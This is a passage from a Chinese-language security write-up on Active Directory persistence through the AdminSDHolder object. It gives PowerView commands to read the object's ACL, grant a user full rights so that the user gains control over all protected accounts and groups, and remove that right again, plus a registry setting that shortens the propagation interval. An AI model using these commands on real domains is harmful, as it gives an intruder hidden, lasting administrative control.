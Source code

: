 命令如下：

```
Import-Module .\PowerView.ps1
Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System" |select IdentityReference
```

### 2.向AdminSDHolder对象添加ACL

使用PowerView，地址如下：

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

添加用户testa的完全访问权限，命令如下：

```
Import-Module .\PowerView.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName testa -Verbose -Rights All
```

默认等待60分钟以后，testa获得对所有受保护的AD账户和组的完全访问权限

### 3.删除AdminSDHolder中指定用户的ACL

使用PowerView，地址如下：

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

**注：**

该版本支持`Remove-DomainObjectAcl`命令，但不支持参数TargetADSprefix，所以这里使用TargetSearchBase参数代替

搜索条件为`"LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com"`

删除用户testa的完全访问权限，命令如下：

```
Remove-DomainObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com" -PrincipalIdentity testa -Rights All -Verbose
```

## 0x05 完整利用思路
---

### 1.枚举受保护的AD账户和组中的信息

查找有价值的用户，需要确认该用户是否属于受保护的AD账户和组，排除曾经属于受保护的AD账户和组

### 2.向AdminSDHolder对象添加ACL

例如添加用户testa对AdminSDHolder的完全访问权限

默认等待60分钟以后，testa获得对所有受保护的AD账户和组的完全访问权限

可以通过修改注册表的方式设置权限推送的间隔时间，注册表位置如下：

- HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters,AdminSDProtectFrequency,REG_DWORD
